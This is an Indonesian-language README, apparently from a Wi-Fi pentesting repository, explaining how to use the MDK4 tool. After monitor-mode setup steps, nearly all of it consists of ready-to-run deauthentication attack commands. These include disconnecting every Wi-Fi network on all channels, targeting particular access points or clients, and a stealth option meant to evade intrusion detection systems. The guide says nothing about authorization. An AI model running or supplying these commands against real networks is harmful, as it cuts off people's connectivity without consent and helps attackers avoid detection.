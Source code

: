 # MDK4

![MDK4](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/mdk4/img/mdk3_4.jpg)

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

**1. Scan Wi-Fi:**

```
sudo airodump-ng [interface]
```

**2. Jalankan MDK4:**

   1. Deauth semua Wi-Fi di semua channel:

      ```
      sudo mdk4 [interface] d -c h
      ```

      Opsi `-c h` mengaktifkan channel hopping pada semua channel `b/g` (1–14). Secara default `MDK4` berpindah antar channel setiap 3 detik.
   2. Deauth semua Wi-Fi yang ada di channel tertentu:

      ```
      sudo mdk4 [interface] d -c [channel]
      ```
   3. Blacklist mode:

      ```
      sudo mdk4 [interface] d -b [file_blacklist] -c [channel]
      ```

      - Blacklist mode hanya melakukan deauth terhadap MAC address yang ada di file `[file_blacklist]`.
      - File `[file_blacklist]` berisi MAC address AP (BSSID) atau client yang akan di-deauth.
   4. Whitelist mode:

      ```
      sudo mdk4 [interface] d -w [file_whitelist] -c [channel]
      ```

      - Whitelist mode melakukan deauth terhadap semua MAC address, kecuali yang ada di file `[file_whitelist]`.
      - File `[file_whitelist]` berisi MAC address AP (BSSID) atau client yang akan dilindungi dari deauth.
   5. Speed control:

      ```
      sudo mdk4 [interface] d -s [speed] -c [channel]
      ```
      Speed control untuk mengatur kecepatan pengiriman paket dalam packets per second (pps). Tanpa opsi `-s`, defaultnya unlimited (tergantung kemampuan hardware).
   6. Mode stealth:

      ```
      sudo mdk4 [interface] d -c [channel] -x
      ```
      Opsi `-x` mengaktifkan IDS stealth dengan menyesuaikan sequence numbers paket untuk menghindari deteksi oleh Intrusion Detection System.
   7. Target AP berdasarkan ESSID:

      ```
      sudo mdk4 [interface] d -E [essid] -c [channel]
      ```
   8. Target AP berdasarkan BSSID:

      ```
      sudo mdk4 [interface] d -B [bssid] -c [channel]
      ```
   9. Target client spesifik:

      ```
      sudo mdk4 [interface] d -S [mac_client] -c [channel]
      ```
   10. Whitelist station spesifik:

      ```
      sudo mdk4 [interface] d -W [mac_client] -c [channel]
      ```

      Whitelist station spesifik akan melakukan deauth terhadap semua client, kecuali client `[mac_client]`.
      
## Video Demonstrasi

[https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z](https://youtu.be/eO44GfS2LO8?si=fDtXCxNIUE0_k-1Z)
